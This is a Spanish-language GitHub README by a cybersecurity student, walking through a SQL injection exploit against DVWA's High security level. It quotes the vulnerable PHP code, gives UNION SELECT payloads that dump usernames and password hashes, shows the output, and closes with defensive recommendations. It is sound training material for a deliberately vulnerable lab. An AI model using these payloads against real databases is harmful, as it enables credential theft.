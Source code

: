 # 🛡️ DVWA - SQL Injection (High Level)

En este repositorio se explica cómo explotar una vulnerabilidad **SQL Injection** en el nivel **High** de la aplicación web de pruebas **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Extraer los **nombres de usuario y contraseñas** almacenados en la base de datos, utilizando una **inyección SQL** que se realiza a través de una **variable de sesión (`$_SESSION['id']`)** y no directamente en la URL.

---

## 🫠 Análisis técnico

### 📂 Código fuente: `high.php`

```php
if (isset($_SESSION['id'])) {
    $id = $_SESSION['id'];

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);

    while ($row = mysqli_fetch_assoc($result)) {
        echo "<pre>ID: {$id}<br />First name: {$row['first_name']}<br />Surname: {$row['last_name']}</pre>";
    }
}
```

🔎 **Puntos clave:**

- La consulta SQL es vulnerable porque el valor de `$_SESSION['id']` **no está escapado ni protegido**.
- La inyección SQL es posible si conseguimos modificar el valor de esa variable de sesión.
- El payload que funciona en el nivel **Low** también funciona aquí, como se explica en [Aftab Sama's writeup](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high).

---

## 🔧 Paso a paso para explotar la vulnerabilidad

### 1. Acceder a la interfaz para cambiar el ID

Navega a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/session-input.php
```

![Link_Cambiar_ID](assets/SQL_Clickhere.png) 

Esta página contiene un campo de texto que permite **modificar la variable de sesión `$_SESSION['id']`**.

![Cuadro_Cambiar_ID](assets/SQL_ChangeID.png) 

---

### 2. Inyectar el payload SQL

En el campo de texto, introduce el siguiente valor malicioso:

```
1' UNION SELECT user, password FROM users#
```

📌 Este payload, heredado del nivel bajo, funciona también en el nivel High. Aprovecha que el valor se inyecta directamente en la consulta SQL sin escapado adicional.

Y pulsa el botón **Submit**.

![Usuarios y Contraseñas](assets/SQL_Resultado.png) 

---

### 3. Consultar los resultados

Después de enviar el formulario, serás redirigido automáticamente a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/high.php
```

Ahí verás los resultados de la inyección SQL. Por ejemplo:

```
ID: 1' UNION SELECT user, password FROM users#
First name: admin
Surname: admin

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

...
```

Estos valores corresponden a los usuarios y contraseñas almacenadas en la tabla `users` de DVWA.

---

## 🦪 Payloads útiles

| Objetivo                               | Payload                                                       |
| -------------------------------------- | ------------------------------------------------------------- |
| Extraer usuario y contraseña           | `1' UNION SELECT user, password FROM users#`                  |
| Ver solo un usuario (primer resultado) | `1' UNION SELECT user, password FROM users LIMIT 1#`          |
| Ver el segundo usuario                 | `1' UNION SELECT user, password FROM users LIMIT 1 OFFSET 1#` |
| Insertar valores personalizados        | `1' UNION SELECT 'root','toor'#`                              |

---

## ⚠️ Recomendaciones de seguridad

Este ejercicio está diseñado para realizarse en un entorno de pruebas controlado (DVWA). En un entorno real:

✅ Usa **consultas preparadas (prepared statements)**  
✅ Aplica **validación de entradas**  
✅ Escapa correctamente los datos enviados por el usuario  
✅ Limita los permisos de las cuentas de base de datos  
✅ Aplica un firewall de aplicaciones web (WAF)  

---

## 📚 Recursos

- 🔗 [DVWA en GitHub](https://github.com/digininja/DVWA)
- 📖 [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- ▶️ [Vídeo tutorial utilizado](https://youtu.be/5bj1pFmyyBA)
- 📘 [Writeup de Aftab Sama sobre SQLi en DVWA](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high)

---

## 👨‍💼 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad


